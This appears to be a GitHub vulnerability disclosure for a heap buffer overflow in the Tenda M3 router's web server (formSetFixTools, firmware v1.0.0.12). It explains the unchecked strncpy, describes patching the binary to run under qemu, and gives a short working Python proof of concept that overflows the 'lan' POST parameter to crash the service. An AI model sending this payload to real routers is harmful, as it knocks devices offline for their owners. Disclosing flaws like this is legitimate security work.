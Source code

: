 # Tenda M3 contains heap Overflow Vulnerability

## overview

- type: heap overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a heap buffer overflow. The vunlerability is in fucntion `formSetFixTools` 

It calls `malloc(0x28)` to allocate heap buffer, and it  copies POST parameter`lan` tp heap buffer. 

![image-20220819225204589](readme.assets/image-20220819225204589.png)

It didn’t check the value of `v23` and calls `strncpy`, so there is a heap overflow. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "networkTool": "3",
	"operation": "start", 
	"lan": "a"*0x100
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setFixTools", data=data, cookies=cookies)
print(res.content)
```

![image-20220819225348806](readme.assets/image-20220819225348806.png)

![image-20220819225426861](readme.assets/image-20220819225426861.png)